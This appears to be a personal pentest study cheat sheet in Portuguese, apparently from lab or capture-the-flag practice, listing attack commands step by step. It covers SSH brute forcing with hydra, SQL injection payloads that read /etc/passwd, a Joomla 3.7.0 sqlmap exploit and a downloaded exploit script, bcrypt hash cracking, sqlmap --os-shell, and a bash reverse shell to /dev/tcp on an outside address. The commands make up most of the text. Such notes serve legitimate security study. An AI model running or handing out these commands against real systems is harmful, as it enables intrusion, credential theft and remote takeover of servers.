 # teste-estudoPentest
Web Vulnerability Scanner:
W3AF
Dnsenum
Echo %STRING | base64 -d

Brute force
hydra -l %USERNAME -P wordlist.txt %IP ssh

Linux Privilege Escalation Awesome Script
# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64

Enumerar diretórios pelo IP que tem o site rodando
gobuster dir -w /home/kali/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt %IP

SQL injection (depois de logado)
uname=admin' union select 1,load_file("/etc/passwd"),3,4,5,6 -- &password=admin

uname=admin' union select 1,load_file("/etc/apache2/sites-enabled/000-default.conf"),3,4,5,6 -- &password=admin

Joomla Scan
joomscan -u %LINK
Sendo encontrado a versao Joomla 3.7.0
searchsploit joomla 3.7.0
searchsploit -m %ID_DA_VUL_EX_42033
cat %ID_EX_42033
É apresentado que é possível explorar através de sqlmap com determinado comando onde %IP, está http://localhost
sqlmap -u " http:%IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dump-all -p list[fullordering]
ou
wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py
python2.7 joomblah.py http://$IP
•	Usuário exposto e hash da senha exposta
•	pesquisar pelo tipo da hash em hashes.com, identificado bcrypt
•	salvar a hash em txt
•	rodar o John pra formato bcrypt
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
senha encontrada em texto plano na comparação
logar no joomla
nc -nvlp 1234
editar a configuração do joomla para ip e abrir a mesma porta EX: 1234

Novo teste
nmap -A %IP
Encontrado 80 http site
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --url http://10.129.95.185/ -x php
Encontrar algumas páginas criadas como nav.php, dentro foi possível criar uma conta
Pegar a resposta, botão direito no Burp, “do intercept”; “Response to this request”; trocar a resposta de 302 pra 200 ( pre )

Teste com SQLI
•	Verificar o certificado SSL e o “Common name” do mesmo pra qual endereço web   refere, adicionar este endereço para /etc/hosts
•	Tentar abrir o site novamente
•	Adicionar nome e senha randômicos no Burp, para capturar a requisição.
•	E rodar sqlmap:
sqlmap -r $Request_salva.txt --dbs --force-ssl –batch
Ao apresentar alguns bancos disponíveis, tentar dumpar:
	sqlmap -r $Request_salva.txt --dbs --force-ssl -D $nome_do_database_exposto --dump-all –batch
Retornado as credenciais de admin e senha:
sqlmap -r req.txt --force-ssl --batch --os-shell
sqlmap -r req.txt --force-ssl --batch --os-shell --flush-session --time-sec=20
bash -c 'bash -i &> /dev/tcp/10.10.14.100/4444 0>&1'

Teste 
nmap -sV -sC %IP_EXTENSO
Pegar o ssl-cert Subject: commonName do resultado: %ENDEREÇO_POR_EXTENSO
Adicionar ao /etc/hosts o ip: %IP_EXTENSO %ENDEREÇO_POR_EXTENSO
Tentar acessar os endereços com as portas listadas no nmap






